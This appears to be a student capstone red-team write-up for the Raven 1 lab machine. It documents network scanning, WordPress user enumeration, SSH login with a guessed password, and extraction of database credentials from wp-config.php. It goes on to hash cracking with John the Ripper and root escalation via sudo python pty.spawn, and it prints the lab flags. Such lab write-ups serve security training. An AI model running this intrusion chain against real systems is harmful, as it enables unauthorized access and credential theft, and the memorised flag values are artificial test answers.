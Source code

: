 # Final-Project
# Read Team: Summary of Operations

### Table of Contents
- Scanning the network
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Network Scan
#### netdiscover

Scanned the network to find the Subnet using netdiscover and IP of the Target 1

`netdiscover`

Output Screenshot:

![Netdiscover scan results](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/netdiscover.png "Netdiscover scan results")

This scan identified the following machines and the corresponding IP addresses:

| IP | Machine |
|:-------------:|:-------------:|
| 192.168.1.1 | Hyper-V, Gateway IP |
| 192.168.1.100 | Capstone Machine |
| 192.168.1.105 | ELK server  |
| 192.168.1.110 | Target 1, Raven 1 |
| 192.168.1.115 | Target 2, Raven 2 |

### Exposed Services
Nmap scan results for each machine revealed the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![Nmap scan results](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/nmaptarget1.png "Nmap scan results")

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![WPScan results](/Images/nmap-scan-results.png "WPScan results")

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![Flag 1 location](/Images/flag1-location.png "Flag 1 location")

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![Flag 3 location](/Images/flag3-location.png "Flag 3 location")

- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - ![wp_users table](/Images/wpusers-table.png "wp_users table")

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper results](/Images/john-results.png "John the Ripper results")

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`

![Flag 4 location](/Images/flag4-location.png "Flag 4 location")




